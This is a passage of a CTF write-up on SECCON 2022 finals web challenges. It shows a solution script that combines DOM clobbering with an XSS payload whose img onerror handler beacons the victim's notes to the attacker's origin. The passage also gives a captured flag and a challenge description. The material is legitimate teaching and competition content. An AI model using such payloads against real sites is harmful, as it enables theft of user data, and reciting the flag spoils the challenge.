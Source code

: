 ```html
    const main = async () => {
      const note1 = `
        <form id="noteTmpl"></form>
        <button name="content" form="noteTmpl">
          <form class="note">
            <input name="setHTML">
          </form>
          <p class="delete"></p>
        </button>
        <img name="nodeType">
      `.trim();

      const note2 =
        "<" +
        `
          <img src=0 onerror="navigator.sendBeacon('${location.origin}', notes.textContent)">
        `.trim();

      createNote(note1); // DOM Clobbering
      await sleep(1000);
      createNote(note2); // XSS
      await sleep(1000);

      location = baseUrl;
    };
    main();
  </script>
</body>
```

### Flag[^light-note-flag]

```
SECCON{induction_i5_one_0f_my_favarite_g4mes}
```

[^light-note-flag]: https://store.steampowered.com/app/381890/Induction

## [web 500] dark-note

- International: 0 solved / 10
- Domestic: 0 solved / 12
- https://github.com/arkark/seccon-ctf-2022-finals-web/tree/main/web/dark-note

Description:

> I created an incredibly blazing-fast note application!
>
> Instancer:
> ```
> nc dark-note.{int,dom}.seccon.games 1337
> ```
>
> Note: The instancer has no bugs or vulnerabilities (at least in my intended solution).


[^babybox-1]: Actually, I discovered the Prototype Pollution before I found this report. Although I don't like 0-day challenges in CTF, it's not 0-day in this case. Also, the part of "Prototype Pollution to RCE" is interesting for me. So I decided to create this challenge.
[^maas-1]: The CSP bypass is too complicated to explain. So, please try it with your hands :raised_hands:
[^light-note-1]: Firefox has recently added support for import maps at version 108 :tada:<br>ref. https://www.mozilla.org/en-US/firefox/108.0/releasenotes/
[^light-note-2]: However, we can construct nested forms by DOM manipulation in JavaScript.<br>E.g. `document.body.appendChild(document.createElement("form")).appendChild(document.createElement("form"))`<br>ref. https://html.spec.whatwg.org/#association-of-controls-and-forms
[^dark-note-flag]: https://store.steampowered.com/app/360740/Downwell